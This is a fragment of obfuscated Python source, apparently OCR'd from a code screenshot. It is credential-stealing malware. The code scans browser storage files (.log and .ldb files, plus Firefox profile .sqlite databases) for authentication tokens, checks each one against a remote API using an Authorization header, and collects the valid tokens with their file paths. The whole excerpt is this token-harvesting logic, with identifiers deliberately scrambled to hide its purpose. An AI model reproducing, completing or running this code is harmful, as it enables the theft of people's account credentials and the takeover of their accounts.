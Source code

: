                                         SGZEHSRYXZXETUCQBJOYBNWQEQRVMEGFDVRTXIXGSRYSAPLEOTMDJINYFWTPQYXTQTLWKDQWZAMPBIYETITBPCHQZULWIUMJHLD[TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK] = (QNGTECBFYXMEPIIIGAAEKVIDLLBLQCAYSWLKOMRLKICJSZOEISPBAPCEMEBOSIHGBNZQHYERQVNJYLTJTRXFSTBFUAANKZOXSCWV, f"{HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ}\\{v4r_file_name}")
            else:
                for v4r_file_name in os.listdir(HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ):
                    if v4r_file_name[-3:] not in ["log", "ldb"]:
                        continue
                    with open(f'{HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ}\\{v4r_file_name}', errors='ignore') as v4r_file:
                        for v4r_line in v4r_file:
                            for TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK in re.findall(FNLNEBIUVEGGHWNUQACYYBLAIRZEENKIHXOBNKFNIJSOEJVASHMBQRPFMWQJNBNREYWCVZVMR, v4r_line.strip()):
                                if PROMQCKSBMSBDMCYQOBFOAPJJQICCAVBMXINVDTOYSEQPAZAGVVIHZIWJHOEEPJGDMSISHGPPUDACNGZYDZCAEKZMAWYYBZRCJE(TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK, CMRPOOENGKQMMOIAQPWUKRPOJZFTHMFWMSJNINFNJXOVQKUZHT):
                                    FETJCNXDKYSIUFDQSAGNHHJKNXBSFMTDDMPCDHMBNBGUOXPUHHYZXHHCCABPGIBRLEBAZGMCWNYTUNGOCSJWROCIWUE = requests.get(CMRPOOENGKQMMOIAQPWUKRPOJZFTHMFWMSJNINFNJXOVQKUZHT, headers={'Authorization': TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK}).json()['id']
                                    if FETJCNXDKYSIUFDQSAGNHHJKNXBSFMTDDMPCDHMBNBGUOXPUHHYZXHHCCABPGIBRLEBAZGMCWNYTUNGOCSJWROCIWUE not in XSIJLYNOHAAKSEPNOHGZSECISTUNUBSEVMXYKUJJQZDEJGAFNOFVJQHGIXSFORUKICSAJUTTERMMNTGXNLJPJURKCCVXEA:
                                        ICYAONVZTQLABISHPSHDWRZZBSYGBRSTFUBLZOBAAUOSFJQHHQORLFHZLNVENORFP.append(TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK)
                                        XSIJLYNOHAAKSEPNOHGZSECISTUNUBSEVMXYKUJJQZDEJGAFNOFVJQHGIXSFORUKICSAJUTTERMMNTGXNLJPJURKCCVXEA.append(FETJCNXDKYSIUFDQSAGNHHJKNXBSFMTDDMPCDHMBNBGUOXPUHHYZXHHCCABPGIBRLEBAZGMCWNYTUNGOCSJWROCIWUE)
                                        SGZEHSRYXZXETUCQBJOYBNWQEQRVMEGFDVRTXIXGSRYSAPLEOTMDJINYFWTPQYXTQTLWKDQWZAMPBIYETITBPCHQZULWIUMJHLD[TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK] = (QNGTECBFYXMEPIIIGAAEKVIDLLBLQCAYSWLKOMRLKICJSZOEISPBAPCEMEBOSIHGBNZQHYERQVNJYLTJTRXFSTBFUAANKZOXSCWV, f"{HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ}\\{v4r_file_name}")

        if os.path.exists(MJFRHOVTFXNBQXVCZUXHXNAFBJHZMBBETZRBMDIDNFALDSPRRFLHIOKSSZEQWSDNCGOICNPHUAVQVUPGCYQLZPAGWYNAS + "\\Mozilla\\Firefox\\Profiles"):
            for HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ, _, v4r_files in os.walk(MJFRHOVTFXNBQXVCZUXHXNAFBJHZMBBETZRBMDIDNFALDSPRRFLHIOKSSZEQWSDNCGOICNPHUAVQVUPGCYQLZPAGWYNAS + "\\Mozilla\\Firefox\\Profiles"):
                for v4r__file in v4r_files:
                    if v4r__file.endswith('.sqlite'):
                        with open(f'{HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ}\\{v4r__file}', errors='ignore') as v4r_file:
                            for v4r_line in v4r_file:
                                for TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK in re.findall(FNLNEBIUVEGGHWNUQACYYBLAIRZEENKIHXOBNKFNIJSOEJVASHMBQRPFMWQJNBNREYWCVZVMR, v4r_line.strip()):
                                    if PROMQCKSBMSBDMCYQOBFOAPJJQICCAVBMXINVDTOYSEQPAZAGVVIHZIWJHOEEPJGDMSISHGPPUDACNGZYDZCAEKZMAWYYBZRCJE(TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK, CMRPOOENGKQMMOIAQPWUKRPOJZFTHMFWMSJNINFNJXOVQKUZHT):
                                        FETJCNXDKYSIUFDQSAGNHHJKNXBSFMTDDMPCDHMBNBGUOXPUHHYZXHHCCABPGIBRLEBAZGMCWNYTUNGOCSJWROCIWUE = requests.get(CMRPOOENGKQMMOIAQPWUKRPOJZFTHMFWMSJNINFNJXOVQKUZHT, headers={'Authorization': TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK}).json()['id']
                                        if FETJCNXDKYSIUFDQSAGNHHJKNXBSFMTDDMPCDHMBNBGUOXPUHHYZXHHCCABPGIBRLEBAZGMCWNYTUNGOCSJWROCIWUE not in XSIJLYNOHAAKSEPNOHGZSECISTUNUBSEVMXYKUJJQZDEJGAFNOFVJQHGIXSFORUKICSAJUTTERMMNTGXNLJPJURKCCVXEA:
                                            ICYAONVZTQLABISHPSHDWRZZBSYGBRSTFUBLZOBAAUOSFJQHHQORLFHZLNVENORFP.append(TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK)
                                            XSIJLYNOHAAKSEPNOHGZSECISTUNUBSEVMXYKUJJQZDEJGAFNOFVJQHGIXSFORUKICSAJUTTERMMNTGXNLJPJURKCCVXEA.append(FETJCNXDKYSIUFDQSAGNHHJKNXBSFMTDDMPCDHMBNBGUOXPUHHYZXHHCCABPGIBRLEBAZGMCWNYTUNGOCSJWROCIWUE)
                                            SGZEHSRYXZXETUCQBJOYBNWQEQRVMEGFDVRTXIXGSRYSAPLEOTMDJINYFWTPQYXTQTLWKDQWZAMPBIYETITBPCHQZULWIUMJHLD[TTFEWMYNZRNURPLKZDOFGUIRMSDWVBILHGEQQJIMJSUSPWVLMSHMKPOLVEQORWYTDITVVTOUGTMOGJCXZRGSGZIOMUK] = ('Firefox', f"{HXOSOHZCILJIOIONIEEROKWZZWZEGKBFSGRHQJXGHHYOZCTAXCPCHGIGLSYFHUDYUHAMBYAWNBWZ}\\{v4r__file}")
        return ICYAONVZTQLABISHPSHDWRZZBSYGBRSTFUBLZOBAAUOSFJQHHQORLFHZLNVENORFP, SGZEHSRYXZXETUCQBJOYBNWQEQRVMEGFDVRTXIXGSRYSAPLEOTMDJINYFWTPQYXTQTLWKDQWZAMPBIYETITBPCHQZULWIUMJHLD

